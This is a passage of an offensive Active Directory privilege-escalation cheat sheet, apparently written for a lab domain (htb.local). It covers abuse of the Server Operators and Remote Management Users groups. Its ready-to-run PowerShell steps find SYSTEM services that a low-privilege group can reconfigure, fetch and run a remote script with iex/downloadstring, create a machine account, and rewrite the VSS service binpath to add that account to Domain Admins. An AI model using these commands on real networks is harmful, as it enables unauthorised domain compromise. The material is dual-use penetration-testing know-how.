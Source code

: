 ```
$services=(get-service).name | foreach {(Get-ServiceAcl $_)  | where {$_.access.IdentityReference -match 'Server Operators'}}
# Returns about 65 standard services that Server Operators have privileges over

# We can now search for which of these services is running with SYSTEM privileges
(gci HKLM:\SYSTEM\ControlSet001\Services |Get-ItemProperty | where {$_.ObjectName -match 'LocalSystem' -and $_.pschildname -in $services.name}).PSChildName
```

We choose one service from the output that is going to execute our command in the next step

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1')
New-MachineAccount -MachineAccount cube -Password $(ConvertTo-SecureString 'Password123!' -AsPlainText -Force) -Domain htb.local -DomainController dc.htb.local

sc.exe config VSS binpath="C:\Windows\System32\cmd.exe /c net group 'Domain Admins' cube$ /add /domain" type="share" group="" depend=""
sc.exe stop VSS
sc.exe start VSSS
```

### RCE Search SMB Shares For Sensitive Files
```
dir \\dc.htb.local\c$\
```

## Remote Management Users
A group used for low privilege remote management with WinRM/PsRemote.

### RCE WinRM
We can enumerate WinRM endpoints to see which ones the Remote Management Users group has access to.

```
Get-PSSessionConfiguration |where {$_.Permission -match 'Remote Management Users'}

Name          : microsoft.powershell
PSVersion     : 5.1
Permission    : NT AUTHORITY\INTERACTIVE AccessAllowed, BUILTIN\Administrators AccessAllowed, BUILTIN\Remote Management Users
                AccessAllowed

Name          : microsoft.powershell.workflow
PSVersion     : 5.1
Permission    : BUILTIN\Administrators AccessAllowed, BUILTIN\Remote Management Users AccessAllowed

Name          : microsoft.powershell32
PSVersion     : 5.1
Permission    : NT AUTHORITY\INTERACTIVE AccessAllowed, BUILTIN\Administrators AccessAllowed, BUILTIN\Remote Management Users
                AccessAllowed


#Connect to target, microsoft.powershell will be the default endpoint
New-PSSession -ComputerName dc.htb.local
```
